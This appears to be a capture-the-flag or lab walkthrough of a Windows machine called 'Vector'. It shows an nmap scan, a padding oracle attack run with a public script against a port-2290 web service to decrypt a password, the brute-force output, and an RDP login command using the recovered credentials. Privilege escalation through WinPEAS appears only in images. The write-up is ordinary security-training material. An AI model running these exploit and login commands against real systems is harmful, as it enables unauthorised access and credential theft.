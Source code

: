# Vector

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.233.119
Starting Nmap 7.93 ( https://nmap.org ) at 2023-06-30 17:12 +08
Nmap scan report for 192.168.233.119
Host is up (0.17s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE SERVICE
21/tcp   open  ftp
80/tcp   open  http
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
2290/tcp open  sonus-logging
3389/tcp open  ms-wbt-server
5985/tcp open  wsman
```

### Web Enum

Port 80 reveals a basic login page:

<figure><img src="../../../.gitbook/assets/image (1291).png" alt=""><figcaption></figcaption></figure>

Port 2290 was also a HTTP port, and it returned something simple:

<figure><img src="../../../.gitbook/assets/image (1400).png" alt=""><figcaption></figcaption></figure>

C? When we view the page source, there's also this part here:

```markup
</div>
	<span id="MyLabel">ERROR: missing parameter "<b>c</b>"</span>
	<!--
		AES-256-CBC-PKCS7 ciphertext: 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488
		
		Victor's TODO: Need to add authentication eventually..
	-->
</form>
```

There's a commented ciphertext, and there's also something which takes a parameter. We can try putting this ciphertext as the parameter requested.&#x20;

<figure><img src="../../../.gitbook/assets/image (1004).png" alt=""><figcaption></figcaption></figure>

If we remove some characters, then it loads something else.

<figure><img src="../../../.gitbook/assets/image (2893).png" alt=""><figcaption></figcaption></figure>

That's literally all of the enumeration that is possible to do.

### Paddling Oracle Attack --> RDP&#x20;

The first thing we can note is the AES mode used, which is CBC. This mode is insecure against a paddle oracle attack. For this application, it appears that when a parameter `c` (short for ciphertext) is submitted, we get a '1' if it has valid padding, else we get a '0'. This explains why the ciphertext, when submitted returns a '1'. This confirms that we need to use this attack to get the ciphertext out.&#x20;

Here's a full video explaining the paddle oracle attack (which I needed to know for my exam lol):

{% embed url="https://www.youtube.com/watch?v=4EgD4PEatA8" %}

Of course, to exploit this we will leverage on automated methods since it involves brute forcing each byte of the ciphertext. Tools like `padbuster` also work if configured properly, but I opted to use the script from this repo since it was easier to configure:

{% embed url="https://github.com/mpgn/Padding-oracle-attack" %}

{% code overflow="wrap" %}
```bash
$ python3 exploit.py -c 4358b2f77165b5130e323f067ab6c8a92312420765204ce350b1fbb826c59488 -l 16 --host 192.168.233.119:2290 -u /?c= --error '<span id="MyLabel">0</span>' --method GET
```
{% endcode %}

This would brute force every single character out. Here's the output of it:

```
[+] Search value block :  1 

[+] Found 1 bytes : 04

[+] Found 2 bytes : 0404

[+] Found 3 bytes : 040404

[+] Found 4 bytes : 04040404

[+] Found 5 bytes : 3704040404

[+] Found 6 bytes : 743704040404

[+] Found 7 bytes : 61743704040404

[+] Found 8 bytes : 5661743704040404

[+] Found 9 bytes : 655661743704040404

[+] Found 10 bytes : 6f655661743704040404

[+] Found 11 bytes : 6c6f655661743704040404

[+] Found 12 bytes : 416c6f655661743704040404

[+] Found 13 bytes : 6d416c6f655661743704040404

[+] Found 14 bytes : 726d416c6f655661743704040404

[+] Found 15 bytes : 6f726d416c6f655661743704040404

[+] Found 16 bytes : 576f726d416c6f655661743704040404


[+] Decrypted value (HEX): 576F726D416C6F655661743704040404
[+] Decrypted value (ASCII): WormAloeVat7
```

We get a password! SSH is not open on the machine, but RDP is. `xfreerdp` can be used to connect to it.&#x20;

```
$ xfreerdp /u:victor /p:WormAloeVat7 /v:192.168.233.119
```

<figure><img src="../../../.gitbook/assets/image (1952).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### WinPEAS --> Admin Shell

I downloaded and ran `winPEASx64.exe` on the machine, and found this output:

<figure><img src="../../../.gitbook/assets/image (1778).png" alt=""><figcaption></figcaption></figure>

It's pretty trivial to get an administrator shell from this.&#x20;

<figure><img src="../../../.gitbook/assets/image (1278).png" alt=""><figcaption></figcaption></figure>

Rooted!

